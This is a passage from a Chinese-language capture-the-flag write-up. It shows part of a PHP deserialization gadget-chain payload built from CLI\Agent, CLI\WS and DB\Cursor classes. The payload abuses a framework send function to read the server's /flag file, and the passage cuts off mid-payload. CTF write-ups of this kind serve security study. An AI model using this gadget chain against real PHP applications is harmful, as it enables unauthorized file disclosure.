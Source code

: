 服务器上去测试就segment fault了，黯然离去.jpg

接下来我们只能去找框架的函数了

找着找着我找到了：

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804111008.png)

这样一个东西，这个函数就很nice

我们传入`WEB->send('/flag',false,true);`那么我们就能得到`/flag`的内容了

最后payload如下：



```php
<?php

namespace CLI{
    class Agent {
        protected
            $server="",
            $id="",
            $socket="",
            $flag="",
            $verb="",
            $uri="",
            $headers="";
        public $events;
        public function check(){

        }
        public function __construct(){
            $this->events=["disconnect"=>array(new \base(),"run")];
            $this->server=&$this;


        }
    };
    class WS
    {
        protected
            $addr="",
            $ctx="",
            $wait="",
            $sockets="",
            $protocol="",
            $agents = [];
        public $events = ["disconnect"=>"bbbbb"];
        public function __construct($val)
        {
            $this->addr = $val;
        }
    }

}
namespace DB{

    abstract class Cursor  implements \IteratorAggregate {
        protected
            //! Flat-file DB wrapper
            $db,
            //! Data file
            $file,
            //! Document identifier
            $id,
```